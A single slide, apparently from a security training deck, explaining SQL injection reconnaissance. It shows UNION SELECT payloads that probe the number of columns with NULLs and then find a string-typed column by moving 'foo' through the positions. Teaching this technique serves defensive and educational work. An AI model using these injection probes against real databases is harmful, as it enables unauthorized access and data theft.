

# Determining Number and Type of Query Parameters
The number of columns in a query can be determined using progressively longer NULL columns until the correct query is returned
UNION SELECT NULL
UNION SELECT NULL, NULL
UNION SELECT NULL, NULL, NULL
The type of columns can be be determined using a similar technique
For example, to determine the column that has a string type one would execute:
UNION SELECT ‘foo’, NULL, NULL
UNION SELECT NULL, ‘foo’, NULL
UNION SELECT NULL, NULL, ‘foo’